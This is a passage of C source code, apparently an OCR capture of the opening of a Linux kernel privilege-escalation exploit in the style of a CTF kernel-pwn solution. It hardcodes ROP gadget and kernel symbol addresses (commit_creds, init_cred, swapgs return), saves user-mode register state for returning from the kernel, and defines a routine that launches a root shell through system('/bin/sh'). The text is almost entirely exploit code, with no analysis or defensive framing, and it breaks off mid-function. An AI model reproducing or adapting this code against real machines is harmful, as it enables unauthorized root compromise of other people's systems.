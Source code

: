 ```c
#define _GNU_SOURCE
#include <asm/ldt.h>
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <semaphore.h>
#include <poll.h>
#include <sys/xattr.h>
#include <sched.h>

#define POP_RDI_RET 0xffffffff810029a1
#define COMMIT_CREDS 0xffffffff810a0700
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a00abd
#define INIT_CRED 0xffffffff82250ec0

size_t commit_creds = NULL, prepare_kernel_cred = NULL, kernel_offset = 0, kernel_base = 0xffffffff81000000;


int         seq_fd;
size_t      seq_data[0x10];
size_t      pop_rdi_ret;
size_t      init_cred;
size_t      swapgs_restore_regs_and_return_to_usermode;
size_t      add_rsp_0x40_ret;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootShell(void)
{
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
```